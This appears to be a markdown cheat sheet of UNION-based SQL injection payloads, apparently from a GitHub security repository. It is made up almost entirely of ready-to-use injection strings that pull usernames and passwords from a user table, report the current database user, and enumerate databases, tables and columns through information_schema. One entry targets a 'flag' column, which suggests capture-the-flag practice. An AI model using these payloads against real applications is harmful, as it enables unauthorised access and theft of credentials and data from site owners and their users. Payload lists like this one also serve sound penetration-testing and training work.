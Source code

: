 
## 🔀 UNION-based Payloads

```sql
' union select 111, 222, 333, 444---
```

```sql
a' union select 111, username, password, 444 from usser--
```

```sql
' UNION SELECT NUll, table_name, NULL FROM information_schema.tables--
```

Get current DB user (check for admin permissions)

```sql
')) UNION SELECT 1, user(), '', 1 -- -
```

Enumerate databases

```sql
')) UNION SELECT 1, schema_name, '', 1 FROM information_schema.schemata -- -
```

Enumerate tables inside a target DB

```sql
')) UNION SELECT 1, table_name, '', 1 FROM information_schema.tables WHERE table_schema='target_db' -- -
```

List All Columns in a Table

```sql
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='target_table' -- -
```

Enumerate columns in a specific table

```sql
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='target_table' -- -
```

```sql
')) UNION ALL SELECT 1, column_name, "", 1 FROM information_schema.columns WHERE table_name='targetTable' -- -
```

```sql
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='targetTable' AND column_name='flag' -- -
```

```sql
')) UNION SELECT 1, CONCAT(table_name, '.', column_name), '', 1 FROM information_schema.columns WHERE table_schema='target' -- -
```
